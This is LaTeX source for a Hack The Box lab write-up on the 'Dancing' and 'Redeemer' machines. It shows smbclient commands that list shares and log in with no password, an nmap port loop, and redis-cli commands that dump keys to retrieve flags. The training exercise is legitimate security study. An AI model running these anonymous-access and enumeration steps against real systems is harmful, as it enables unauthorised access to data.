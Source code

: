 \documentclass[a4paper,12pt]{article}
\newcommand{\bashinline}[1]{\texttt{#1}}
\begin{document}
What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?
\begin{bash}
sudo pacman -S smbclient
smbclient -L 10.129.71.114
Password: (empty)
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN\$         Disk      Remote Admin
        C\$             Disk      Default share
        IPC\$           IPC       Remote IPC
        WorkShares      Disk
\end{bash}

What is the name of the share we are able to access in the end with a blank password? WorkShares.

\begin{bash}
smbclient -N //10.129.71.114/Workshares
smb: \> ls
smb: \> cd James.P
smb: \> get flag.txt
\end{bash}

\subsection{Redeemer \faLinux}

Which TCP port is open on the machine? HTB hints that the TCP open port has 4 digits and the last one is 9. Generate a list \bashinline{ports9.txt} with these ports and
\begin{bash}
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
\end{bash}

Which service is running on the port that is open on the machine? \bashinline{redis} is open on port 6379.

What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database.
Googling about Redis, we see that it is an ``in-memory Database''.

Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments.
\begin{bash}
sudo pacman -S redis
redis-cli -h 10.129.70.15
\end{bash}

Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server? From \url{https://redis.io/commands/}, \bashinline{info}.
\begin{bash}
10.129.70.15:6379> info
10.129.70.15:6379> select 0
10.129.70.15:6379> info
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.70.15:6379> keys *
10.129.70.15:6379> get flag
\end{bash}
\end{document}
